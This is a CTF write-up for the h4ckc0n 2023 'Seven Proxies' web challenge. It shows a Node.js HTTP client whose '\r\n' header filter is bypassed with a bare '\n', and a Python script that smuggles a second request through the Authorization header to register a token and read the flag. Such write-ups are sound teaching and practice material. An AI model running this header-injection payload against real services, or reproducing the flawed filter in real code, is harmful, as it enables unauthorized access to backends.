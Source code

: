 ```yaml
---
title: h4ckc0n 2023 - Seven Proxies
date: Sun Aug 27 10:18:46 PM +04 2023
categories: [Writeup]
tags: [ctf,h4ckc0n,h4ckc0n2023,web]
---
```


## Description

My friend said that if we create two APIs and make the public one act as a proxy of other it would be unhackable. I don't think so. Can you help me out with this?

Here's Z endpoint monsieur

[http://64.227.131.98:40001/](http://64.227.131.98:40001/)

[secure-web-api.zip](https://hackcon.in/files/0bfb628b6e82969605c3911748b72826/secure-web-api.zip?token=eyJ1c2VyX2lkIjo1NDAsInRlYW1faWQiOjM1NSwiZmlsZV9pZCI6MjN9.ZOuJ-Q.ZMpbK00aD-Sl3tR4li6hTpqnU9I)

## Analysis

The application is what description says, there's frontend application which sends requests to backend and returns response from backend to us.

There's an extra file called `http-client.js`. The way function assembles request is injectable:

```js
export const request = async (url, options) => {
  const parsedUrl = new URL(url);

  const client = new Socket();
  client.setEncoding('utf8');
  client.connect(parsedUrl.port || 80, parsedUrl.hostname, () => {
    let request = '';
    request += `${options.method} ${parsedUrl.pathname + parsedUrl.search} HTTP/1.0\r\n`;
    request += `Host: ${parsedUrl.host}\r\n`;
    for (const header in options.headers) {
      if (header.includes('\r\n') || options.headers[header].includes('\r\n')) {
        continue;
      }
      request += `${header}: ${options.headers[header]}\r\n`;
    }
    if (options.body) {
      request += `Content-Type: text/plain\r\n`;
      request += `Content-Length: ${options.body.length}\r\n`;
    } else {
      request += `Content-Length: 0\r\n`;
    }
    request += `Connection: close\r\n`;
    request += `\r\n`;
    if (options.body) {
      request += options.body;
    }

    client.write(request);
  });

  let response = '';

  client.on('data', (data) => {
    response += data;
  });

  return new Promise((resolve, reject) => {
    client.on('error', (e) => {
      reject(e);
    });

    client.on('close', function () {
      resolve(parseResponse(response));
    });
  });
};
```

Headers are directly written inside request, the only filter is `\r\n` which is easily bypassed by just `\n`. <br>
For the exploit we have only 1 header:

```js
app.get("/flag", (req, res) => {
    if (!req.query.token) {
        res.status(500).send("[!] You need to provide a token");
        return;
    }

    request(`http://${process.env.SECURE_BACKEND}:9000/flag`, {
        method: "GET",
        headers: {
            Authorization: `Bearer ${req.query.token}`, // <-- Screaming for injection D:
        },
    })
        .then((response) => {
            res.send(response);
        })
        .catch((err) => {
            console.log(err);
            res.status(500).send("[!] Internal server error. The secure backend service crashed.");
        });
});
```

`Authorization` header will allow us to smuggle in other headers or data. Interesting enough we can actually smuggle inside another http request.

`/flag` is the target because it doesnt validate token, only register token does validation.

## Solution

```py
import requests

URL = 'http://64.227.131.98:40001'
TOKEN = "LETMEINNNN"

payload = f'''
{TOKEN}
Content-Length: 0
Connection: keep-alive

GET /register-token?token={TOKEN} HTTP/1.1
Host: localhost
'''.strip() # Remove extra whitespace

# Register token by smuggling second request
resp = requests.get(f"{URL}/flag", params={'token': payload})
# print(resp.json())

# Profit
resp = requests.get(f"{URL}/flag", params={'token': TOKEN})
print(resp.json()['body'])
```

## Note

Later on I found that this challenge actially was copy of [TeamItalyCTF (2022) FlagProxy](https://github.com/TeamItaly/TeamItalyCTF-2022/tree/master/FlagProxy)

<small>Just glad that it wasn't 100% copy 💦</small>